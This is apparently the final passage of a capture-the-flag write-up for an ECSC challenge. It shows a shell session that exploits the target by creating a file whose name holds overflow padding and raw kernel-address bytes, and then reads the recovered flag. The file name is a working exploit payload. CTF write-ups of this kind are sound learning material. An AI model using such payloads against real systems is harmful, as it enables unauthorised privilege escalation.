 FINAL:
```bash
~ $  touch "$(printf 'ecsc_flag_AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x6e\x33\x35\xc0\xff\xff\x
ff\xff\x90\xa3\x43\xaa\xff\xff\xff\xff')"
~ $ ls
~ $ cd /
/ $ ls
bin
dev
ecsc_flag_cf785ee0b5944f93dd09bf1b1b2c6da7fadada8e4d325a804d1dde2116676126
etc
home
init
lib
mnt
proc
root
run
sys
tmp
var
/ $ cat ecsc_flag_cf785ee0b5944f93dd09bf1b1b2c6da7fadada8e4d325a804d1dde21166761
26 
ECSC{c0d801fb2045ddb0ab[...]fa30b45b8a5}
```
We have the FLAG!!

I hope you enjoyed this first Writeup see you soon!!

if you have any questions you can dm me on discord : 'zeletix.'
